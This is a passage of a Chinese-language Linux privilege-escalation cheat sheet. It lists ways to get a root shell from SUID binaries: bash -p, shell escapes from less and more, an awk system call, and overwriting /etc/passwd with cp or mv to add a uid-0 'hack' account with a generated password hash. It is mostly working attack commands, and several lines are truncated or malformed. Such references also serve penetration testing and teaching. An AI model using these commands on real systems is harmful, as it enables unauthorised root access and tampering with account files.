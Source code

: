 以下命令将以root身份打开一个bash shell。

```bash
bash -p
bash-3.2
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(servi
```

**less**

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。

```bash
less /etc/passwd
!/bin/sh
```

**more**

```
more /home/pelle/myfile
!/bin/bash
```

**cp**

覆盖 /etc/shadow 或 /etc/passwd

```bash
cat /etc/passwd >passwd
openssl passwd -1 -salt hack hack123
echo \'hack:\$1\$hack\$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
cp passwd /etc/passwd
su - hack
id
```

**mv**

覆盖 /etc/shadow 或 /etc/passwd

```bash
cat /etc/passwd \>passwd
openssl passwd -1 -salt hack hack123
echo \'hack:\$1\$hack\$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:
mv passwd /etc/passwd
su - hack
id
```

**nano**

```
nano /etc/passwd
```

**awk**

```
awk 'BEGIN {system("/bin/sh")}'
```
